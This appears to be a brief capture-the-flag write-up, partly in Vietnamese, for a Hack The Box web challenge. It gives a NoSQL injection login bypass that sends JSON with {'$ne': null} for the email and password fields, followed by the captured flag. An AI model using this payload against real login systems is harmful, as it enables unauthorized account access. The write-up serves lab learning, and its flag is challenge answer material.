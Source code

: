 # Source:

# Solve

- POST data với Content-Type: `application/json`
- Data gửi đi là:
```json
{
    "email": {"$ne": null},
    "password": {"$ne": null}
}
```
![Alt text](image.png)
`Flag: HTB{w3lc0m3_to0o0o_th3_c44andy_v4u1t!}`